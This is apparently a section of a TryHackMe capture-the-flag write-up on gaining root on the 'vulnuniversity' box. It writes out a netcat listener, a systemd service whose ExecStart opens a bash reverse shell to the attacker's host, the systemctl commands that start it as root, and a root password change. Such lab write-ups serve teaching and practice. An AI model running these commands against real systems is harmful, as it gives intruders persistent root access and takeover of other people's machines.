
##### root reverse shell

```bash
nc -lvnp 7777
```

Host THM IP: 10.18.10.39

[Bash TCP reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

Using systemctl to create a getroot.service to run as root:

```
echo "[Unit]
Description=Get root reverse shell.

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.18.10.39/7777 0>&1'

[Install]
WantedBy=multi-user.target" > /tmp/getroot.service
```

```bash
systemctl enable /tmp/getroot.service
systemctl start getroot
```

```
Listening on 0.0.0.0 7777
Connection received on 10.10.53.246 44768
```

```bash
root@vulnuniversity:/# whoami
root
root@vulnuniversity:/# passwd
Enter new UNIX password: newpasswd
Retype new UNIX password: newpasswd
passwd: password updated successfully
```

```bash
ssh root@$IP
```

DONE
